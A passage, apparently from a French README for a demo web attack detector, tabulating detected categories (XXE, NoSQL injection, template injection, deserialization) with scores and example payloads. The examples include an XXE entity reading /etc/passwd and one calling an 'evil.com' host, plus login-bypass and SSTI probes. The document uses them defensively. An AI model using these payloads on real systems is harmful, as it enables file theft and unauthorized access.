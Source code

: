 ### **7. XXE (XML External Entity)**
| **Caractéristique** | **Détail** |
|---------------------|------------|
| **Score** | +15 points |
| **Routes** | Toutes (contenu XML) |
| **Patterns** | Entités XML externes |
| **Exemples détectés** | `<!ENTITY xxe SYSTEM "file:///etc/passwd">`, `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://evil.com/">` |
| **Risques** | Lecture de fichiers, SSRF, DoS |

### **8. SSRF (Server-Side Request Forgery) - DÉSACTIVÉ**
| **Caractéristique** | **Détail** |
|---------------------|------------|
| **Score** | ~~+13 points~~ (désactivé) |
| **Statut** | Temporairement désactivé |
| **Raison** | Simplification pour la démo |
| **Réactivation** | Possible via décommentage du code |

### **9. NoSQL Injection**
| **Caractéristique** | **Détail** |
|---------------------|------------|
| **Score** | +11 points |
| **Routes** | `/login`, `/search` |
| **Patterns** | Opérateurs MongoDB/CouchDB |
| **Exemples détectés** | `{"$ne": null}`, `{"$gt": ""}`, `{"$where": "this.username == this.password"}` |
| **Bases** | MongoDB, CouchDB, Cassandra |

### **10. Template Injection (SSTI)**
| **Caractéristique** | **Détail** |
|---------------------|------------|
| **Score** | +14 points |
| **Routes** | `/search` |
| **Patterns** | Syntaxes de templates |
| **Exemples détectés** | `{{7*7}}`, `{%raw%}{{config}}`, `${{7*7}}`, `#{7*7}` |
| **Templates** | Jinja2, Twig, FreeMarker, Thymeleaf |

### **11. Deserialization Attacks**
| **Caractéristique** | **Détail** |
|---------------------|------------|
| **Score** | +16 points |
| **Routes** | Toutes |
| **Patterns** | Objets sérialisés malicieux |
| **Exemples détectés** | `O:8:"stdClass":1:{s:4:"test";s:4:"hack";}`, `pickle.loads(base64.b64decode(...))` |
| **Langages** | Java, PHP, Python, .NET |

### **12. Tentatives d'accès administrateur**